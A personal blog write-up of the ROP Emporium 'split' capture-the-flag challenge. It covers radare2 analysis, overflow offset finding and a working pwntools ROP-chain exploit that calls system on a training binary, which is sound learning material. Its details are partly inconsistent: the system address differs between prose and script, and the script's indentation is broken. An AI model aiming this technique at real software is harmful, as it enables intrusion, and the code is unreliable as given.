 ```yaml
---
layout: post
title:  "ROP Emporium - split"
date:   2020-05-8 14:07:19
categories: [ROP]
excerpt: "This is the Second challenge from ROP Emporium, named as "Split". In this i am, going to write a small ROP chain to complete this challenge. Going to use radare2 as much as i can, just for the sake of learning the tool. Radare2 is a complete framework for reverse-engineering and analyzing binaries."

comments: true
---
```



## Introduction
This is the Second challenge from ROP Emporium, named as "Split". In this challenge we have to create a small ROP Chain which execute system and give us the flag to complete the challenge. Through out this i am going to use radare2 as much as i can, just for the sake of learning the tool. Radare2 is a complete framework for reverse-engineering and analyzing binaries.

###### Challenge Description 
Combine elements from the ret2win challenge that have been split apart to beat this challenge. Learn how to use another tool whilst crafting a short ROP chain. 

###### About the Binary:
Our binary is usual ELF executable in 64-bit architecture.Lets check what protection are on this binary, using rabin2, which comes with radare2 framework.

![source-01](/img/Screenshot_2020-05-13_12-32-28.png){: .align-left}


PIE isn't enabled and nx set to true, so we know shellcode cannot be executed off the stack and the binary has ASLR disabled.

## Analyzing the 64bit ELF binary
Lets load the binary with radare2 and dump the functions.The afl command list the functions. We can also output it as JSON using this command aflj~{}

![source-01](/img/Screenshot_2020-05-13_08-41-16.png){: .align-left}


Here we can see three interesting functions:

- main()
- pwnme()
- usefulFunction()

So lets disassemble the binary and see what these fucntions does!

###### main():


![source-01](/img/Screenshot_2020-05-13_08-44-57.png){: .align-left}


The only interesting thing here for us is, its calling the function name pwnme() which have overflow vulnerability.

###### pwnme():


![source-01](/img/Screenshot_2020-05-13_08-48-45.png){: .align-left}


Just like in retwin challenge, we have a 32 byte buffer that can be overflowed with fgets that takes 96 characters from the user.


###### usefulFunction()


![source-01](/img/Screenshot_2020-05-13_08-34-01.png){: .align-left}


This function directly call system with /bin/ls,which list the files in current working directory and there is also usefullstring which /bin/cat flag.txt so we need to return to this function to exploit the binary successfuly. 



## Fuzzing:
So now the binary analysis is out of the way. Lets start fuzzing the binary.Generate the unique pattern and send to the program.

```
gef➤  pattern create 100
[+] Generating a pattern of 100 bytes
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
[+] Saved as '$_gef0'
gef➤  r
Starting program: /root/Desktop/ROP/split/split/split 
split by ROP Emporium
64bits

Contriving a reason to ask user for data...
> aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa

Program received signal SIGSEGV, Segmentation fault.


```
![source-01](/img/Screenshot_2020-05-15_10-20-53.png){: .align-left}

As expected the program segfaulted (crashed),we have a valid crash scenario here.


###### Calculating offset

Copy past the generated pattern to the program.
```
gef➤  pattern offset 0x00007fffffffe048
[+] Searching '0x00007fffffffe048'
[+] Found at offset 40 (little-endian search) likely
[+] Found at offset 33 (big-endian search) 
gef➤  

```

#### Building ROP-Chain

Lets find the pieces we need to build a ROP chain.

> UsefulString “/bin/cat flag.txt” 

We can find all the strings in binary using rabin2. 

![source-01](/img/Screenshot_2020-05-15_14-55-41.png){: .align-left}

UsefullString(0x601060)

> sytem@plt

system(0x400810)

-- pop rdi; ret

Lets find the address of pop rdi ret

![source-01](/img/Screenshot_2020-05-14_08-23-29.png	){: .align-left}

pop rdi ret (0x400883)







#### Exploitation 

Now let’s craft the payload.

Junk + pop_rdi + bin_cat + system_plt



Full exploit using pwntools:

```
 
#!/usr/bin/python
from pwn import *
 
def main():
    junk = "A" * 40                     # RIP Offset at 40
    cat_flag = p64(0x00601060)          # Radare2 command: izz
    system_plt = p64(0x4005e0)          # objdump -d split | grep system
    pop_rdi = p64(0x0000000000400883)   # python ROPgadget.py --binary split | grep rdi
    p = process("./split")
    payload = junk + pop_rdi + cat_flag + system_plt
   p.sendlineafter(">", payload)
   print p.recvall()
 
if __name__ == "__main__":
    main() 
    
   ```






w00t we got the flag!

###### End 

Thats the end of ret2win challenge,it is a very simple one but as i progress through the challenges the exploits will become more complex and fun. Remember never stop learning, Cheers!.

> Code for this challenge  https://github.com/d3b4g/ROP-Emporium







